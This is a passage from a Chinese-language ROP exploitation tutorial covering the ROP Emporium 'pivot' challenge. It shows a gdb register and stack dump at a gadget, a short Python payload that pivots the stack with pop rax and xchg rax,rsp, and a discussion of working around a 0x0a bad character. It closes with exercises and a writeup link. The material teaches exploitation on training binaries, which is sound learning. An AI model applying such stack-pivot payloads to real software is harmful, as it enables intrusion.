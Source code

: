 ```
EBX: 0x0 
ECX: 0x54 ('T')
EDX: 0xf7731854 --> 0x0 
ESI: 0xf772fe28 --> 0x1d1d30 
EDI: 0x0 
EBP: 0x0 
ESP: 0xf755cf20 --> 0x8048571 (<_init+33>:      pop    ebx)
EIP: 0x80488c6 (<usefulGadgets+6>:      ret)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80488c2 <usefulGadgets+2>: xchg   esp,eax
   0x80488c3 <usefulGadgets+3>: ret    
   0x80488c4 <usefulGadgets+4>: mov    eax,DWORD PTR [eax]
=> 0x80488c6 <usefulGadgets+6>: ret    
   0x80488c7 <usefulGadgets+7>: add    eax,ebx
   0x80488c9 <usefulGadgets+9>: ret    
   0x80488ca <usefulGadgets+10>:        xchg   ax,ax
   0x80488cc <usefulGadgets+12>:        xchg   ax,ax
[------------------------------------stack-------------------------------------]
0000| 0xf755cf20 --> 0x8048571 (<_init+33>:     pop    ebx)
0004| 0xf755cf24 --> 0x1f7 
0008| 0xf755cf28 --> 0x80488c7 (<usefulGadgets+7>:      add    eax,ebx)
0012| 0xf755cf2c --> 0x80486a3 (<deregister_tm_clones+35>:      call   eax)
0016| 0xf755cf30 --> 0xa ('\n')
0020| 0xf755cf34 --> 0x0 
0024| 0xf755cf38 --> 0x0 
0028| 0xf755cf3c --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x080488c6 in usefulGadgets ()
```

#### pivot
基本同上，但你可以尝试把修改 rsp 的部分也用 gadgets 来实现，这样做的好处是我们不需要伪造一个堆栈，即不用管 ebp 的地址。如：
```python
payload_2  = ""
payload_2 += "A" * 40
payload_2 += p64(pop_rax)
payload_2 += p64(leakaddr)
payload_2 += p64(xchg_rax_rsp)
```

实际上，我本人正是使用这种方法，因为我在构建 payload 时，`0x0000000000400ae0 <+165>:   leave`，leave;ret 的地址存在截断字符 `0a`，这样就不能通过正常的方式写入缓冲区，当然这也是可以解决的，比如先将 `0a` 换成非截断字符，之后再使用寄存器将 `0a` 写入该地址，这也是通常解决缓冲区中截断字符的方法，但是这样做难度太大，不推荐，感兴趣的读者可以尝试一下。

这样基本的 ROP 也就介绍完了，更高级的用法会在后面的章节中再介绍，所谓的高级，也就是 gadgets 构造更加巧妙，运用操作系统的知识更加底层而已。


## 练习
ROP Emporium 中有几个 64 位程序在这里没有给出 payload，就留作练习吧，答案都可以在这里找到：[ROP Emporium Writeup](https://firmianay.github.io/2017/11/02/rop_emporium.html)
